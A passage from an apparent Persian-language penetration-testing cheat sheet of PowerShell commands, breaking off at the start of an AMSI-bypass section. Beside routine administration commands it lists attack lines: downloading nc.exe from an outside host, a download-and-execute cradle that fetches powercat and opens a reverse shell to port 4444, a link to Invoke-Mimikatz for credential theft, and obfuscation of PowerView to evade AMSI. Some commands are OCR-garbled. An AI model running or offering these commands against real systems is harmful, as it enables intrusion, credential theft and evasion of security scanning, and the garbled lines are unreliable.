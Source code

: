 ```text
   c. libesedb - http://code.google.com/p/libesedb/ 
```

## محیط POWERSHELL

| **Command** | **Description** |
| :--- | :--- |
| stop-transcript | توقف ضبط |
| get-content file | نمایش محتویات فایل |
| get-help command -examples | نمایش نمونه دستور |
| get-command  'string' | جست و جو برای cmd |
| get-service | نمایش سرویس ها \(stopservice, start-service\) |
| get-wmiobject -class win32 service |نمایش سرویس ها به همان اطلاعات هویتی |
| $PSVesionTable | نمایش نسخه powershell |
| powershell.exe -version 2.0 |اجرای powershell 2.0 از نسخه 3.0 |
| get-service measure-object | اطلاعات برگشت داده شده از سرویس |
| get-psdrive | لیست برگشت داده شده از PSDrives |
| get-process select -expandproperty name |نمایش نام ها |
| get-help ' -parameter credential | دریافت اطلاعات هویتی |
| get-wmiobject -list -'network' | WMI موجود در شبکه |
| \(Net.DNS\]: :GetnostEntry\(" ip "I | فرآیند DNS Lookup |
| powershell.exe wget "http://10.10.10.10/nc.exe" -outfile "c:\temp\nc.exe" | دریافت و ذخیره سازی فایل |
| poweshell.exe -c "IEX (New-Object System.Net.WebClient).DownloadString('http://10.10.10.10:8000/powercat.ps1'); powercat -c 10.10.10.100 -p 4444 -e cmd | شل معکوس |
| https://gist.githubusercontent.com/zhilich/b8480f1d22f9b15d4fdde07ddc6fa4ed/raw/8078a51bbfa18df36d8e890fefe96a06891dd47d/SimpleHttpServer.ps1 | وبسرور با پورت ۸۰۵۰ |
| https://raw.githubusercontent.com/PowerShellMafia/PowerSploit/master/Exfiltration/Invoke-Mimikatz.ps1 | استفاده از mimikatz |
| فراخوانی فایل های ps1 | Import-Module .\Invoke-Mimikatz.ps1 |
| دریافت و ذخیره سازی فایل | iwr -uri http://10.10.10.10/file -o file.exe |


### دورزدن AMSI

```text
Import-Module .\Invoke-Obfuscation\Invoke-Obfuscation.psm1
Out-ObfuscatedTokenCommand -Path .\powerview.ps1 | Out-File out
```

یا
